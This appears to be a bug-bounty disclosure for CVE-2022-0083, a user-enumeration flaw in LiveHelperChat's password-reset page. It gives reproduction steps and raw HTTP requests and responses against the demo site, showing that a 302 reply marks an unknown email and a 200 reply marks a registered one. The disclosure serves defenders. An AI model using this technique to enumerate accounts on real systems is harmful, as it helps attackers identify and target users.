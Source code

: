 +++
title = "CVE-2022-0083 - Generation of Error Message Containing Sensitive Information LiveHelperChat"
+++

# Description

When resetting your password, you're able to enumerate users based on the way that the server responds to your request. If you enter an email that doesn't exist (for example: test@gmail.com), then the server will respond with an HTTP 302 FOUND status response code (indicated by line 97 of the occurrence link)

But if you attempt to reset the password for an account that you know exists (for example: remdex@gmail.com), then the server will respond with an HTTP 200 OK status response code and also responds with this page which indicates that a password reset email was sent (indicated by line 94 of the occurrence link)

# Steps To Reproduce

1. Go to /site_admin/user/forgotpassword
2. Enter an email address that doesn't exist (For example: 1d8demo@gmail.com)
3. Observe network requests & restore password. Notice that it is a 302 redirect to the forgotpassword page which indicates the email address doesn't exist
4. Now enter an email address that does exist (For example: remdex@gmail.com)
5. Observe the network request & restore password. Notice how the server responds with a different webpage which indicates that a password reminder email has been sent, confirming that the email address does exist.

# Proof of Concept

**Request when email address doesn't exist:**

```
POST /site_admin/user/forgotpassword HTTP/1.1
Host: demo.livehelperchat.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Origin: https://demo.livehelperchat.com
DNT: 1
Connection: keep-alive
Referer: https://demo.livehelperchat.com/site_admin/user/forgotpassword
Cookie: lhc_vid=7a46a3918dffa927cd6a; PHPSESSID=ptlo9b3h7kq9cffurfp1ujb8cq
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

Email=test@gmail.com
csfr_token=0604a0365f43ca1e52f3ee26f802a300
Forgotpassword=Restore password
```

**Response when email address doesn't exist:**

```
HTTP/1.1 302 Found
Server: nginx
Date: Mon, 03 Jan 2022 02:34:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Keep-Alive: timeout=10
X-Powered-By: PHP/7.4.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: DENY
Location: /site_admin/user/forgotpassword
```

**Request when email address does exist:**

```
POST /site_admin/user/forgotpassword HTTP/1.1
Host: demo.livehelperchat.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: https://demo.livehelperchat.com
DNT: 1
Connection: keep-alive
Referer: https://demo.livehelperchat.com/site_admin/user/forgotpassword
Cookie: lhc_vid=7a46a3918dffa927cd6a; PHPSESSID=n3u430nfrohrto8dm5pneg5uab
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

Email=remdex@gmail.com
csfr_token=0604a0365f43ca1e52f3ee26f802a300
Forgotpassword=Restore password
```

**Response when email address does exist:**

```
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 03 Jan 2022 02:34:36 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Keep-Alive: timeout=10
Vary: Accept-Encoding
X-Powered-By: PHP/7.4.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: DENY
Content-Encoding: gzip
```

# Reference - https://huntr.dev/bounties/4c477440-3b03-42eb-a6e2-a31b55090736/
